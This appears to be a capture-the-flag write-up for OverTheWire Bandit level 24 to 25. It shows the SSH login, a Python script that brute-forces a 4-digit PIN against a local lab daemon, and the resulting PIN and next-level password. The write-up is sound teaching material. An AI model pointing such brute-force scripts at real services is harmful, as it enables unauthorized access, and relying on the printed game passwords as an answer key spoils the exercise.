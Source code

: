 ```yaml
---
layout: post
author: mike
series: bandit
categories: [bandit,security] 
---
```


### Level 24 -> 25
#### Game Instructions
> A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

This one is our first scripting for brute force...
```
ssh -p 2220 bandit24@bandit.labs.overthewire.org
password: UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```
We have a daemon listening on port 30002 for us to send both the previous password + a 4 digit pin. We can do this manually and take a week or so, or we can script it out to try the 10000 combinations. **Our First Brute Attack**

Here's a script:
```py
#!/usr/bin/env python3
# coding: utf-8
import sys
import socket
pincode = 0
password = "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"
try:
    # Connect to server
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("127.0.0.1", 30002))

    # Print welcome message
    welcome_msg = s.recv(2048)
    print(welcome_msg)
    # Try brute-forcing
    while pincode < 10000:
        pincode_string = str(pincode).zfill(4)
        message=password+" "+pincode_string+"\n"
        # Send message
        s.sendall(message.encode())
        receive_msg = s.recv(1024)
        # Check result
        if "Wrong" in receive_msg:
            print("Wrong PINCODE: %s" % pincode_string)
        else:
            print(receive_msg)
            break
        pincode += 1
finally:
    sys.exit(1)
```
After a while we'll get to the right combination. The pin is **2586** as of my writing.

Next password:
`uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG`
